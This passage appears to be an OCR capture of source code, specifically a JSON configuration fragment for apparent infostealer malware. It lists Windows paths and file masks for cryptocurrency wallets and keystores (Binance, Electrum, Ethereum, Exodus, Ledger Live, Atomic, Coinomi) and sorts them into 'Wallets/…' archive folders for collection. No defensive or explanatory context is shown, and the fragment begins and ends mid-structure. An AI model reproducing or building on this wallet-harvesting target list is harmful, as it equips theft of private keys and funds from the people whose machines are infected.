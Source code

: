                 "m": "*crypto*",
                "z": "Important Files/Profile",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Binance",
                "m": "app-store.json",
                "z": "Wallets/Binance",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Binance",
                "m": ".finger-print.fp",
                "z": "Wallets/Binance",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Binance",
                "m": "simple-storage.json",
                "z": "Wallets/Binance",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Electrum\\wallets",
                "m": "*",
                "z": "Wallets/Electrum",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Ethereum",
                "m": "keystore",
                "z": "Wallets/Ethereum",
                "d": 1
            },
            {
                "t": 0,
                "p": "%appdata%\\Exodus\\exodus.wallet",
                "m": "*",
                "z": "Wallets/Exodus",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\Ledger Live",
                "m": "*",
                "z": "Wallets/Ledger Live",
                "d": 2
            },
            {
                "t": 0,
                "p": "%appdata%\\atomic\\Local Storage\\leveldb",
                "m": "*",
                "z": "Wallets/Atomic",
                "d": 2
            },
            {
                "t": 0,
                "p": "%localappdata%\\Coinomi\\Coinomi\\wallets",
                "m": "*",